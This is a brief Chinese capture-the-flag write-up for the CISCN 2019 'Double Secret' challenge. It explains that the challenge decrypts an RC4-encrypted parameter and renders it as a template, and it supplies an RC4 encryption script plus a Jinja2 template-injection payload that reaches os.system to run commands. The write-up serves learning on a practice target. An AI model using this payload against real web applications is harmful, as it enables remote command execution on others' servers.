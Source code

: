 #SSTI 
存在 /secret 目录

传参 secret 在 报错页面有部分 app.py 代码
```python
    if(secret==None):
        return 'Tell me your secret.I will encrypt it so others can\'t see'
    rc=rc4_Modified.RC4("HereIsTreasure")   #解密
    deS=rc.do_crypt(secret)
    
    a=render_template_string(safe(deS))

    if 'ciscn' in a.lower():
        return 'flag detected!'
    return a
```

RC4是一种加密算法，对称加密，对明文加密一次得到密文，对密文加密一次又会得到明文
如果我们输入密文，则返回的是明文

```python
# RC4是一种对称加密算法，那么对密文进行再次加密就可以得到原来的明文

import base64
from urllib.parse import quote


def rc4_main(key="init_key", message="init_message"):
    # print("RC4加密主函数")
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return crypt


def rc4_init_sbox(key):
    s_box = list(range(256))  # 我这里没管秘钥小于256的情况，小于256不断重复填充即可
    # print("原来的 s 盒：%s" % s_box)
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print("混乱后的 s 盒：%s"% s_box)
    return s_box


def rc4_excrypt(plain, box):
    # print("调用加密程序成功。")
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    # print("res用于加密字符串，加密后是：%res" %res)
    cipher = "".join(res)
    print("加密后的字符串是：%s" % quote(cipher))
    # print("加密后的输出(经过编码):")
    # print(str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
    return str(base64.b64encode(cipher.encode('utf-8')), 'utf-8')


rc4_main("key", "text")


```

之后利用模板注入，将 payload 加密后传入

利用 os
```python
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
```
参考
[[CISCN 2019华东南]Double Secret_ph0ebus的博客-CSDN博客](https://blog.csdn.net/qq_46266259/article/details/128920290)

